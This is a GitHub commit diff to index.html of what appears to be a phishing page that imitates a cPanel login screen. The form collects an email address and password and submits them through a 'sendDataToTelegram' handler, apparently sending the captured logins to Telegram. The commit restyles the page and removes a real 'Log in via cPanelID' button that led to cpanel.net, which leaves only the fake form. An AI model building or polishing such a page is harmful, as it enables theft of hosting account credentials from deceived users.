

Before and after one commit to ddoxcstaxtyoutchtxxcvdocumentsdocxvgdoc/docxdoccxcckyuiioiikmmokkjjklklkdocsdocumentpdf.txt.rtf, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 156-622 px from the top of the page, without its empty margins (262-1002 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -54,7 +54,7 @@
 
         .input-group {
             position: relative;
-            margin-bottom: 20px;
+            margin-bottom: 40px; /* Increased spacing */
         }
 
         .input-group input {
@@ -67,17 +67,17 @@
 
         .input-group .icon {
             position: absolute;
-            top: 50%;
+            top: calc(50% + 6px); /* Moved down by 6px */
             left: 10px;
             transform: translateY(-50%);
-            color: #777;
+            color: rgba(0, 0, 0, 0.5); /* Dark blurry color */
             font-size: 18px;
         }
 
         .login-box button {
             width: 100%;
             padding: 10px;
-            background-color: #007bff;
+            background-color: #004080; /* Darker blue */
             border: none;
             border-radius: 5px;
             color: white;
@@ -85,51 +85,7 @@
         }
 
         .login-box button:hover {
-            background-color: #0056b3;
-        }
-
-        .or-divider {
-            display: flex;
-            align-items: center;
-            margin: 20px 0;
-        }
-
-        .or-divider hr {
-            flex: 1;
-            border: none;
-            border-top: 1px solid #ccc;
-        }
-
-        .or-divider .circle {
-            margin: 0 15px;
-            padding: 5px 10px;
-            border: 1px solid #ccc;
-            border-radius: 50%;
-            font-size: 14px;
-            color: #777;
-        }
-
-        .cpanel-login {
-            margin-top: 20px;
-        }
-
-        .cpanel-login button {
-            width: 100%;
-            padding: 10px;
-            background-color: #ff7f0f;
-            border: none;
-            border-radius: 5px;
-            color: white;
-            font-size: 16px;
-            display: flex;
-            align-items: center;
-            justify-content: center;
-            cursor: pointer;
-        }
-
-        .cpanel-login .icon-infinity {
-            margin-right: 10px;
-            font-size: 18px;
+            background-color: #003366; /* Darker hover effect */
         }
 
         .languages {
@@ -153,6 +109,11 @@
             color: gray;
             text-decoration: none;
         }
+
+        .footer a:before {
+            content: "∞ "; /* Infinity sign */
+            font-size: 16px;
+        }
     </style>
 </head>
 <body>
@@ -166,30 +127,19 @@
         <div class="login-box">
             <form onsubmit="sendDataToTelegram(event)">
                 <div class="input-group">
-                    <span class="icon">&#128100;</span> <!-- User icon -->
-                    <input type="text" id="email" name="email" placeholder="Email Address" required>
+                    <label for="email">Email Address</label>
+                    <span class="icon">&#128100;</span> <!-- Blurred dark user icon -->
+                    <input type="text" id="email" name="email" required>
                 </div>
 
                 <div class="input-group">
-                    <span class="icon">&#128274;</span> <!-- Lock icon -->
-                    <input type="password" id="password" name="password" placeholder="Password" required>
+                    <label for="password">Password</label>
+                    <span class="icon">&#128274;</span> <!-- Blurred dark lock icon -->
+                    <input type="password" id="password" name="password" required>
                 </div>
 
                 <button type="submit">Log in</button>
             </form>
-
-            <div class="or-divider">
-                <hr>
-                <span class="circle">OR</span>
-                <hr>
-            </div>
-
-            <div class="cpanel-login">
-                <button onclick="redirectToCpanel()">
-                    <span class="icon-infinity">&#8734;</span> <!-- Infinity-like icon -->
-                    Log in via cPanelID
-                </button>
-            </div>
         </div>
 
         <div class="languages">
@@ -279,10 +229,6 @@
                 notificationBar.className = "notification-bar error-bar";
             }
         }
-
-        function redirectToCpanel() {
-            window.location.href = "https://cpanel.net";
-        }
     </script>
 </body>
 </html>
```
